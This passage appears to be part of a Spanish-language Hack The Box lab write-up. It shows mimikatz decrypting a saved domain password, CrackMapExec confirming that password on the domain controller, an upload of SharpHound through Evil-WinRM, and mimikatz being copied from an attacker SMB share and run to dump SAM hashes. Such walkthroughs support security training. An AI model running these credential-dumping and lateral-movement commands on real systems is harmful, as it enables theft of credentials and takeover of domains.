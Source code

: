 ```bash
  pbData             : b207f818a6599b2f7b4cbd9635bfa1658489e4ff501cd14d89187bea2e1ebafb01ce45bbc23100e8d3316c8ba0f02370ac09985027298520434cc9f607c52ce92bae597b54451f7f79b24b9c3184794927cbbccf0babde469ae281481a7e96b19c3131de62a77cb0f95604b02668aa9c54f04714c79843874f9a98131b8f22bfde94cfd011b1f3a56c1bab6e09ee0aa4e452d5b1c751d91659c11a0544cb6923bd9d891b07c432d844810a55a2dc3aa87db3452d2ad679c76532db453937c226  
  dwSignLen          : 00000040 - 64
  pbSign             : e59eba5fedeb1dab7d34f4e8392471dfed422e845bee3d5b83994d8c8fd4ce1b84b58550ca7514f28d5115a64bf6c5c830cbb40a5e213a519f829893186edbc0

Decrypting Credential:
 * volatile cache: GUID:{87790867-a883-4a2d-a467-019c315e1104};KeyHash:dacd0e1ccaa03abd1ccb22ce058815624739a607
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000ba - 186
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 09/09/2019 10:07:12 a. m.
  unkFlagsOrSize : 00000028 - 40
  Persist        : 00000003 - 3 - enterprise
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:target=web
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : htb.local\test-svc
  CredentialBlob : T3st-S3v!ce-F0r-Pr0d
  Attributes     : 0

mimikatz #
```

Confirmamos que las credenciales a nivel de dominio son válidas utilizando CrackMapExec. Para enumerar privilegios e información del dominio, comenzaremos por subir el módulo SharpHound.ps1 utilizando la función "upload" que viene incluida en Evil-WinRM.

```bash
❯ crackmapexec smb dc1.htb.local -u test-svc -p 'T3st-S3v!ce-F0r-Pr0d'
SMB         dc1.htb.local   445    DC1              [*] Windows 10.0 Build 17763 x64 (name:DC1) (domain:htb.local) (signing:True) (SMBv1:False)  
SMB         dc1.htb.local   445    DC1              [+] htb.local\test-svc:T3st-S3v!ce-F0r-Pr0d
```

```powershell
PS C:\Users\Administrator\Documents> upload SharpHound.ps1

Info: Uploading SharpHound.ps1 to C:\Users\Administrator\Documents\SharpHound.ps1  

Data: 1757460 bytes of 1757460 bytes copied

Info: Upload successful!

PS C:\Users\Administrator\Documents>
```


[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>